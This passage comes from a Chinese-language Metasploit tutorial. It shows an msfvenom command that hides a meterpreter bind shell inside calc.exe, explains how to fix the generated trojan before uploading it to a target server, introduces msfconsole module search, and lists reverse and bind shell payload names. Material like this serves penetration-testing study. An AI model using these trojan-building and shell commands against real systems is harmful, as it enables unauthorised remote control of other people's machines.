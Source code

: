 生成执行计算器payload例子：
{{< highlight shell >}}
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > 1.exe
{{< /highlight >}}
### payload的坑

正常情况下，利用msfvenom生成的木马文件，可直接上传到目标服务器上运行（加权限）。但我自己遇到过一个坑，生成的文件内容有部分是无用的，会引起报错，如下图所示。
![](https://cdn.wtfsec.org/img/20200223180832.jfif)


解决方案是vim文件，删除文件开头两行无效的内容。
## msfconsole

作用：用来在命令行下启动metasploit。

![](https://cdn.wtfsec.org/img/20200223180854.jfif)

启动后可看到metasploit当前版本，以及各个模块的插件数量。

    auxiliary扫描模块
    exploits漏洞利用模块
    payloads
    encoders编码模块
    nops空字符模块

### search寻找模块

比如寻找ms15_034漏洞的利用插件
{{< highlight shell >}}
search ms15_034
{{< /highlight >}}
![](https://cdn.wtfsec.org/img/20200223180945.jfif)

## 配合木马弹Shell

前面我介绍了如何使用msfvenom生成木马文件，这里我介绍如何使用msf连接上被执行的木马文件，达到控制目标服务器。
### 常用payload

首先我们回顾一下生成木马文件的命令，其中有一个payload的选项，常用的几个payload。
linux相关payload：
{{< highlight shell >}}
linux/x86/meterpreter/reverse_tcp
linux/x86/meterpreter/bind_tcp
linux/x86/shell_bind_tcp
linux/x86/shell_reverse_tcp
linux/x64/shell_reverse_tcp
linux/x64/shell_bind_tcp
{{< /highlight >}}
windows相关payload:
{{< highlight shell >}}
windows/meterpreter/reverse_tcp
windows/meterpreter/bind_tcp
windows/shell_reverse_tcp
windows/shell_bind_tcp
windows/x64/meterpreter/reverse_tcp
windows/x64/meterpreter/bind_tcp
windows/x64/shell_reverse_tcp
windows/x64/shell_bind_tcp
{{< /highlight >}}
注意：含有x64只适用目标服务器为64位操作系统的，没有x64或者使用x86的只适用32位操作系统；含有meterpreter的模块会反弹meterpreter_shell，而普通的shell模块只会反弹普通的shell（反弹结果跟nc类似）；reverse_tcp表示木马会主动连接目标服务器，bind_tcp表示木马会监听本地的端口，等待攻击者连接。因此生成的木马文件，要根据具体情况而定。
### payload选择
